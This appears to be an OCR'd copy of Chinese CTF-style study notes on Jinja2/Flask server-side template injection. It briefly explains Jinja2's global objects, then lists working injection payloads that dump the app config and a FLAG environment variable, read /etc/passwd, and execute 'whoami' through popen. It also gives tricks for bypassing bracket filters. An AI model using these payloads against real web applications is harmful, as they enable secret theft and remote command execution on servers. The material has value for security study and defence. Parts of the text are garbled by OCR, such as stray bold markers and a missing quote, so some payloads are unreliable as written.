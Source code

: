 在jinjia2中有4中全局变量
1：config
代表当前flask配置
2：g
g作为flask程序全局的一个临时变量。充当媒介的功能
3：requests
客户端发送的HTTP请求内容
4：session
用户会话

1. url_for()

url_for会根据传入的路由器函数名,返回该路由对应的URL,在模板中始终使用url_for()就可以安全的修改路由绑定的URL,则不比担心模板中渲染出错的链接

1. get_flashed_messages()

这个函数会返回之前在flask中通过flask()传入的消息的列表，flash函数的作用很简单,可以把由Python字符串表示的消息加入一个消息队列中，再使用get_flashed_message()函数取出它们并消费掉



但还有点其他的：

url_for、g、request、namespace、lipsum、range、session、dict、get_flashed_messages、cycler、joiner、config等



### 简单获取信息

```python
当然了，上面那些参数都可以，下面这几个也可以排列组合
{{self.__dict__}}
{{config.__dict__}}
{{url_for.__globals__}}
{{get_flashed_messages.__globals__}}

获取环境信息
{{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ['FLAG]}}

                                                                                         
{{url_for.__globals__['current_app'].config.FLAG}}
{{get_flashed_messages.__globals__['current_app'].config.FLAG}}
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
```

`{{get_flashed_messages.__globals__['current_app'].config}}` 获取配置信息

`{{url_for.__globals__['current_app'].config}}`获取配置信息



### 绕过

**过滤 []**

pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。在这里使用 pop 函数并不会真的移除，但却能返回其值，取代中括号来实现绕过。

```
''**.**__class__**.**__mro__**.**__getitem__(2)**.**__subclasses__()**.**pop(40)('/etc/passwd')**.**read()
{{().__class__}}
{{()['__class__']}}
payload:
{{()['__class__']['__base__']['__subclasses__']()[433]['__init__']['__globals__']['popen']('whoami')['read']()}}


#利用 pop() 绕过：pop()方法可以返回指定序列属性中的某个索引处的元素或指定字典属性中某个键对应的值
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}}       
#指定序列属性
```